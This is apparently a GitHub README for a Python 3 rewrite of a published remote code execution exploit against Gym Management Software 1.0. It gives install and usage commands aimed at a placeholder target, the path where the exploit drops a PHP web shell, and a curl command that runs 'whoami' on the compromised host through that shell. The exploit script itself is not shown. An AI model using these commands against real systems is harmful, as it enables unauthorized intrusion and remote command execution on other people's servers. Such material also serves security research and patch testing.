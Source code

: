 # Gym-Management-Software-1.0-RCE
This is a Python 3 rewrite of the original exploit targeting Gym Management Software version 1.0.

### Requirements
- Python 3
- `requests` module

Install it using:
```bash
pip install requests
```

### Usage

```bash
python3 exploit.py https://<target-ip>:8080/
```

If successful, a web shell will be uploaded to `https://<target-ip>:8080/upload/85c7e2c0-d9c7-40e1-a214-678558affffb.php`

To run a command on the target system using the uploaded shell: `curl https://<target-ip>:8080/upload/85c7e2c0-d9c7-40e1-a214-678558affffb.php -H "cmd: whoami"`

### Credits

This script is based on the original exploit published on Exploit-DB:
- https://www.exploit-db.com/exploits/48506
